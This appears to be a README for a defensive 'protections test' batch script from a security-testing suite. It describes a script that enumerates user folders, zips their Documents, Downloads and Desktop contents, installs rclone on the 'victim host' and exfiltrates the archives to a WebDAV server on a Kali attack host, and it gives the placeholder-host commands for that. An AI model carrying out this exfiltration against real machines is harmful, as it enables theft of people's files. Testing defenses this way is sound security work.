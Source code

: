# Protections Test 1

This protections test batch script tests blocking enumeration and exfiltration via rclone.

## Usage

The batch script takes the webdav server URL as an argument.

* From your Kali attack host `kali (x.x.x.x)`, open a new terminal tab to setup the `rclone` server to receive the exfiltrated files:

    ```cmd
    sudo rclone serve webdav /srv/http --addr x.x.x.x:x
    ```

* Open Administrator Command Prompt, and run the batch script

    ```cmd
    C:\Windows\Temp\test1.bat http://x.x.x.x:x
    ```

## Features
* Takes the webdav server URL as an argument
* Enumerates files in the `C:\Users` directory
* Zips the Documents, Downloads, & Desktops directories for each user
* Downloads and configures rclone on the victim host
* Exfiltrates the zip files to the webdav server via rclone

## Logging

For operator usability, the test1 batch script will log it activity in plaintext in `Test1Log.txt` in the current working directory.

## Cleanup

Run the cleanup script for `test1.bat` located in `../protections/test1` from the same directory you run `test1.bat`:

```cmd
.\cleanup_test1.bat
```

## Troubleshooting
* Ensure the webdav server has been started on your Kali host
* Review the log file `Test1Log.txt` for any error messages

